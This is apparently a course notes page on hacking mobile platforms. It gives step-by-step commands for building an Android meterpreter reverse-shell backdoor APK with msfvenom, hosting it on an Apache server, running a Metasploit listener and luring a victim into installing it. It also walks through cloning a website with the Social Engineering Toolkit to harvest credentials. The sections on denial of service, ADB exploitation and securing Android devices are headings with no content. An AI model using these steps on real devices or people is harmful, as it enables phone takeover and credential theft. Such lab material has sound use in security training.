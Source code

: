 # Module 17 - Hacking Mobile Platforms #

## Hack Android Devices ##

### Creating Binary Payloads to Hack an Android Device ###
Open a Terminal in Android. 
``` su ``` > ``` ip addr add <IP Address with Mask> dev eth0 ``` - To assign the IP Address to the android device

#### msfvenom ####
In the attacker machine:

``` service postgresql start ```

``` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=<Attacker IP> R > <Output Path>/Backdoor.apk ```

#### Creating a Directory to Share with the Victim ####
1. ``` mkdir /var/www/html/share ```
2. ``` chmod -R 755 /var/www/html/share ```
3. ``` chown -R www-data:www-data /var/www/html/share ```
4. ``` mv /root/Desktop/Backdoor.apk /var/www/html/share ``` - Moving the malicious file to the shared folder

#### Starting the Apache Server ####
``` service apache2 start ```

#### Metasploit ####
``` msfconsole ```

Steps to set up a listener:
1. ``` use exploit/multi/handler ```
2. ``` set payload android/meterpreter/reverse_tcp ```
3. ``` set LHOST <Attacker Listener IP> ```
4. ``` exploit -j -z ```

#### Luring the Victim ####
Now, the attacker should lure the victim to access: ```http://<Attacker IP>/share``` and download and execute the ```Backdoor.apk``` file.

#### Metasploit / Meterpreter ####
If Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.


### Harvesting Users' Credentials ###
Open a Terminal in Android. 
``` su ``` > ``` ip addr add <IP Address with Mask> dev eth0 ``` - To assign the IP Address to the android device

#### Social Engineering Toolkit ####

In the attacker machine launch the Social Engineering Toolkit.

1. Select ``` 1) Social-Engineering Attacks ```
2. Select ``` 2) Website Attack Vectors ```
3. Select ``` 3) Credential Harvester Attack Method ```
4. Select ``` 2) Site Cloner ```
5. Enter the attacker IP Address
6. Enter the URL to clone

#### Luring the Victim ####
Now, the attacker should lure the victim to access: ```http://<Attacker IP>```. The site will be cloned from the original one. Once the user enters credentials, they will be logged into SET. 


### Launch a DoS Attack ###
#### Low Orbital Cannon (LOIC) ####


### Exploit the Android Platform through ADB ###
#### PhoneSploit ####

- - - -

## Secure Android Devices ##

### Analyze a Malicious App ###
#### Online Android Analyzers ####

#### Quixxi Vulnerability Scanner ####


### Secure Android Devices ###
#### Malwarebytes Security ####





